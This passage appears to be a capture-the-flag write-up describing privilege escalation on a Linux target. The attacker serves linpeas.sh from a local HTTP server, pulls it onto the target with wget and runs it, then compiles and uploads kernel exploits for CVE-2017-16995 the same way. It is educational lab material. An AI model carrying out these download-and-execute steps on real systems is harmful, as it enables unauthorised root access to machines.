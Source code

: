 ![](https://i.imgur.com/ma9NHVT.png)

## Getting root

Now that we have our initial access, let's upload linpeas.sh and see what it finds for us. For that I fire up a `python3 -m http.server 80` in a local folder where I have the script. Then we just run `wget http://{your_IP}/linpeas.sh` into a writable directory.

> Remember to `chmod +x linpeas.sh` before running it.

![](https://i.imgur.com/E73Uyfm.png)

Now we just wait for linpeas to run through and show its results back.

Right off the bat we get a possible PE vector:

![](https://i.imgur.com/83BHqOU.png)

Let's see if we can find some exploit for that linux kernel that linpeas pointed out for us, let's google!

![](https://i.imgur.com/BBC7TsD.png)

It seems we have some options, let's check the one mentioned in `exploit-db.com`:

![](https://i.imgur.com/Uh9OOfT.png)

Seems to be a script in written in C language, so we'll need to turn it into an executable file. After googling a bit I've come across this site that explains a bit on compiling C programs with `gcc`. Check that post [here](https://www3.ntu.edu.sg/home/ehchua/programming/cpp/gcc_make.html).

Let's see an extract of that post to understand how to compile the exploit we found:

![](https://i.imgur.com/HNE5u41.png)

Seems rather simple, let's compile locally and upload it to the target machine as we did with linpeas before:

![](https://i.imgur.com/DoZ3mYW.png)

Now lets fire up a local http server again and using wget we can upload the exploit:

![](https://i.imgur.com/z0HAVw2.png)

Now we just need to run it. Fingers crossed:

![](https://i.imgur.com/0xreU9D.png)

Darn it! That did not work!...and it also crashed our session. We might need to try another one of the exploits returned for this vuln. Let's get back to google.

There is another script we can try located in [this repo](https://github.com/rlarabee/exploits/blob/master/cve-2017-16995/cve-2017-16995.c). Let's give that one a try.

We repeat the same steps as before: `compile, upload, chmod +x, execute`
